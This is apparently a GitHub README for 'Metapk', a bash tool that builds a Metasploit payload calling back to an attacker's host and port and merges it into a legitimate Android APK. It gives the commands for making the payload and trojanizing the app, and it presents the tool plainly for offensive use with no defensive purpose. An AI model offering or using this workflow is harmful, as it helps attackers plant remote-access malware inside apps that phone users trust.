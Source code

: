 # Metapk
Merge Metasploit Payload And Legit Apk With Ease.

## Let's Dive In
Clone The Repository To Your Machine

In Case You Don't Know How To Do That, Here's The Command,

```
git clone 
```

### Dependencies
*	A Pc With Bash Shell ( Most Suitably Linux)
*	A Chunk Of Processing Power From Your Brain

## Usage
To Create A Payload Only;
```
./metapk -c <lhost> <lport>
```

To Merge Payload And Original Apk;
```
./metapk -e <original apk> <payload>
```
CleanUp The Present Working Directory;
```
./metapk --clean
```

#### Note: For Best Results, Copy Original Apk And Payload Into Metapk Directory.
##### Ps: There Shouldn't Be Spafce Between Apk Names. (Working On That).

